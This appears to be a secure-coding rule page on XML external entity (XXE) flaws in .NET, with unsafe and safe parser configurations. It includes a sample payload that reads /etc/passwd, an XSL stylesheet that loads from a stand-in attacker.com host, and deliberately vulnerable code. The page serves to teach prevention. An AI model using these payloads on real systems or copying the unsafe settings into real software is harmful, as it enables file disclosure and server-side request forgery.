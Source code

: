 
[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

Example in this XML document, an external entity read the /etc/passwd file:


    <?xml version="1.0" encoding="utf-8"?>
      <!DOCTYPE test [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
      ]>
    <note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
      <to>&xxe;</to>
      <from>Jani</from>
      <heading>Reminder</heading>
      <body>Don't forget me this weekend!</body>
    </note>


In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:


    <?xml version="1.0" encoding="UTF-8"?>
    <xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
      <xsl:import href="http://www.attacker.com/evil.xsl"/>
      <xsl:include href="http://www.attacker.com/evil.xsl"/>
     <xsl:template match="/">
      &content;
     </xsl:template>
    </xsl:stylesheet>


It is recommended to disable access to external entities and network access in general.

## Noncompliant Code Examples

System.Xml.XmlDocument


    // .NET Framework < 4.5.2
    XmlDocument parser = new XmlDocument(); // Noncompliant: XmlDocument is not safe by default
    parser.LoadXml("xxe.xml");
    
    or
    
    // .NET Framework 4.5.2+
    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlDocument.XmlResolver configured with XmlUrlResolver that makes it unsafe
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET Framework < 4.5.2
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Noncompliant: XmlTextReady is not safe by default
    while (reader.Read())
    { ... }
    
    or
    
    // .NET Framework 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlTextRead.XmlResolver configured with XmlUrlResolver that makes it unsafe
    while (reader.Read())
    { ... }


System.Xml.XmlReader


    // .NET Framework 4.5.2+
    XmlReaderSettings settings = new XmlReaderSettings();
    settings.DtdProcessing = DtdProcessing.Parse;
    settings.XmlResolver = new XmlUrlResolver();
    XmlReader reader = XmlReader.Create("xxe.xml", settings); // Noncompliant: XmlReader is safe by default and becomes unsafe if DtdProcessing = Parse and XmlResolver is not null
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XPathDocument doc = new XPathDocument("example.xml"); // Noncompliant
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## Compliant Solution

System.Xml.XmlDocument


    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = null; // Compliant: XmlResolver has been set to null
    parser.LoadXml("xxe.xml");
    
    or
    
    XmlDocument parser = new XmlDocument(); // Compliant: XmlDocument is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    while (reader.Read())
    { ... }
    
    // .NET 4.0 to .NET 4.5.1
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.DtdProcessing = DtdProcessing.Prohibit; // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    
    // < .NET 4.0
    XmlTextReader reader = new XmlTextReader(stream);
    reader.ProhibitDtd = true; // Compliant: default is false


System.Xml.XmlReader


    XmlReader reader = XmlReader.Create("xxe.xml"); // Compliant: XmlReader is safe by default
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XmlReader reader = XmlReader.Create("example.xml");
    XPathDocument doc = new XPathDocument(reader); // Compliant: XPathDocument is safe when being given a safe XmlReader
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## See

- [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29) - XML External Entities
  (XXE)
- [OWASP XXE Prevention Cheat
  Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#net)
- [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
- [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

